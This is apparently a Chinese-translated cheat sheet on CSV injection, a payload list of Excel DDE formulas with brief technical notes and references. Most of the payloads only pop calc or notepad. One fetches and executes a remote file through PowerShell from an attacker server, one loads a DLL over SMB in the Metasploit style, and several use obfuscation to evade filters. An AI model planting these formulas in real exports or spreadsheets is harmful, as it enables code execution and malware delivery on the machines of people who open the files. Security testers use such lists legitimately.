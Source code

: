 # CSV Injection - CSV注入

> 许多 Web 应用程序允许用户将发票模板或用户设置等内容下载到 CSV 文件中。许多用户选择在 Excel、Libre Office 或 Open Office 中打开 CSV 文件。当 Web 应用程序未正确验证 CSV 文件的内容时，可能会导致执行一个或多个单元格的内容。

## Exploit - 利用

动态数据交换的基本利用：

```shell
# pop a calc - 弹出计算器
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0
=2+5+cmd|' /C calc'!A0

# pop a notepad - 弹出记事本
=cmd|' /C notepad'!'A1'

# powershell download and execute - 下载执行
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0

# msf smb delivery with rundll32 - msf smb攻击
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1

# Prefix obfuscation and command chaining - 前缀混淆和命令链接
=AAAA+BBBB-CCCC&"Hello"/12345&cmd|'/c calc.exe'!A
=cmd|'/c calc.exe'!A*cmd|'/c calc.exe'!A
+thespanishinquisition(cmd|'/c calc.exe'!A
=         cmd|'/c calc.exe'!A

# Using rundll32 instead of cmd - 使用rundll32
=rundll32|'URL.dll,OpenURL calc.exe'!A
=rundll321234567890abcdefghijklmnopqrstuvwxyz|'URL.dll,OpenURL calc.exe'!A

# 使用空字符绕过字典过滤器。
# 由于它们不是空格，因此在执行时会被忽略。
=    C    m D                    |        '/        c       c  al  c      .  e                  x       e  '   !   A
```

上述Payload的技术细节：

- `cmd` 是客户端尝试访问服务器时服务器可以响应的名称
-  `/C` calc 是文件名，在示例中是 calc（即 calc.exe）
-  `!A0` 是指定数据单元的项目名称，当客户端请求数据时，服务器可以响应

任何公式的开头可以是：

```
=
+
–
@
```

## References

- [OWASP - CSV Excel Macro Injection](https://owasp.org/www-community/attacks/CSV_Injection)
- [Google Bug Hunter University - CSV Excel formula injection](https://bughunters.google.com/learn/invalid-reports/google-products/4965108570390528/csv-formula-injection)
- [CSV INJECTION: BASIC TO EXPLOIT!!!! - 30/11/2017 - Akansha Kesharwani](https://payatu.com/csv-injection-basic-to-exploit/)
- [From CSV to Meterpreter - 5th November 2015 - Adam Chester](https://blog.xpnsec.com/from-csv-to-meterpreter/)
- [The Absurdly Underestimated Dangers of CSV Injection - 7 October, 2017 - George Mauer](http://georgemauer.net/2017/10/07/csv-injection.html)
- [Three New DDE Obfuscation Methods](https://blog.reversinglabs.com/blog/cvs-dde-exploits-and-obfuscation)
- [Your Excel Sheets Are Not Safe! Here's How to Beat CSV Injection](https://www.we45.com/post/your-excel-sheets-are-not-safe-heres-how-to-beat-csv-injection)
